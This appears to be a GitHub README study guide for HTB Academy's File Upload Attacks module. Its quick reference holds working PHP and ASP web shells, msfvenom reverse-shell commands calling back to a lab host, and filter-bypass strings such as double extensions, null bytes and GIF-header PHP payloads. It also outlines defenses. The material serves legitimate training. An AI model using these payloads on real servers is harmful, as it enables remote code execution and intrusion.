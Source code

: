 # File Upload Attacks - HTB Academy Guide

> Complete guide covering file upload vulnerabilities, exploitation techniques, bypass methods, and defense strategies from HTB Academy's File Upload Attacks module.

## 📚 Table of Contents

### Core Techniques
- **[Upload Exploitation](./upload-exploitation.md)** - Web shells, reverse shells, and payload execution
- **[Client-Side Validation](./client-side-validation.md)** - Bypassing JavaScript-based frontend filtering
- **[Blacklist Filters](./blacklist-filters.md)** - Extension fuzzing and blacklist bypass techniques
- **[Basic Bypass Techniques](./basic-bypass-techniques.md)** - Whitelist bypasses, double extensions, character injection
- **[Advanced Bypass Methods](./advanced-bypass-methods.md)** - Complex filtering evasion techniques
- **[Other Upload Attacks](./other-upload-attacks.md)** - Alternative attack vectors and techniques

### Defense & Testing
- **[Prevention & Hardening](./prevention-hardening.md)** - Secure file upload implementation
- **[Skills Assessment Walkthrough](./skills-assessment-walkthrough.md)** - Complete HTB Academy lab solutions

---

## Quick Reference

### 🎯 **Essential Upload Attack Payloads**

**PHP Web Shell (Basic):**
```php
<?php system($_REQUEST['cmd']); ?>
```

**PHP Web Shell (Advanced):**
```php
<?php 
if(isset($_REQUEST['cmd'])){ 
    echo "<pre>";
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
    echo "</pre>";
    die;
}
?>
```

**ASP.NET Web Shell:**
```asp
<% eval request('cmd') %>
```

**Reverse Shell Generation:**
```bash
# PHP Reverse Shell
msfvenom -p php/reverse_php LHOST=10.10.14.55 LPORT=4444 -f raw > reverse.php

# JSP Reverse Shell  
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.55 LPORT=4444 -f raw > reverse.jsp

# ASPX Reverse Shell
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.55 LPORT=4444 -f aspx > reverse.aspx
```

### 🔧 **Common Bypass Techniques**
```bash
# Extension Bypasses
file.php.jpg        # Double extension
file.php%00.jpg     # Null byte injection  
file.php%20         # Space injection
file.php%0a         # Newline injection

# Content-Type Bypasses
Content-Type: image/jpeg    # While uploading PHP
Content-Type: image/png     # Bypass MIME filtering
Content-Type: image/gif     # Image masquerading

# Magic Bytes (File Signature)
GIF89a<?php system($_GET['cmd']); ?>    # GIF header + PHP
\xFF\xD8\xFF\xE0<?php system($_GET['cmd']); ?>    # JPEG header + PHP
```

### 🎯 **HTB Academy Coverage**
- ✅ **Upload Exploitation (Page 3)** - Web shells, reverse shells, msfvenom integration
- ✅ **Client-Side Validation (Page 4)** - Burp Suite interception, DevTools manipulation
- ✅ **Blacklist Filters (Page 5)** - Extension fuzzing, .phtml bypass, case sensitivity
- ✅ **Whitelist Filters (Page 6)** - Double extensions, character injection, null bytes
- ✅ **Complete Lab Solutions** - All HTB Academy flags and step-by-step walkthroughs
- ✅ **Advanced Techniques** - Server misconfigurations, automated wordlist generation

---

## Module Overview

File upload vulnerabilities occur when web applications allow users to upload files without proper validation and sanitization. These vulnerabilities can lead to:

### **💀 Critical Impacts:**
- **Remote Code Execution (RCE)** - Execute arbitrary commands on the server
- **Web Shell Deployment** - Persistent backdoor access
- **Data Exfiltration** - Access sensitive files and databases
- **Lateral Movement** - Pivot to internal network systems
- **Website Defacement** - Modify web application content

### **🎯 Attack Vectors:**
- **Unrestricted File Upload** - No validation on file types
- **Client-side Validation Only** - JavaScript-based filtering
- **Inadequate Server-side Validation** - Weak filtering mechanisms
- **File Type Confusion** - MIME type and extension mismatches
- **Path Traversal** - Directory traversal via filename manipulation

### **🛡️ Defense Strategies:**
- **Whitelist Approach** - Allow only specific file types
- **Server-side Validation** - Comprehensive file checking
- **File Content Inspection** - Magic byte verification
- **Secure Storage** - Non-executable upload directories
- **Filename Sanitization** - Remove dangerous characters

---

## HTB Academy Labs Covered

### **🧪 Practical Exercises:**
- **Upload Exploitation Lab** - Basic web shell deployment
- **Bypass Techniques Lab** - Filter evasion methods  
- **Advanced Attacks Lab** - Complex exploitation scenarios
- **Defense Implementation Lab** - Secure upload configuration

### **🎯 Skills Assessment:**
- **Target:** \`94.237.49.23:52640\`
- **Objective:** Upload web shell and retrieve \`/flag.txt\`
- **Techniques:** Extension bypass, content-type manipulation, payload execution

This module provides comprehensive coverage of file upload attack vectors, from basic exploitation to advanced bypass techniques, with practical HTB Academy lab solutions and real-world defense strategies.
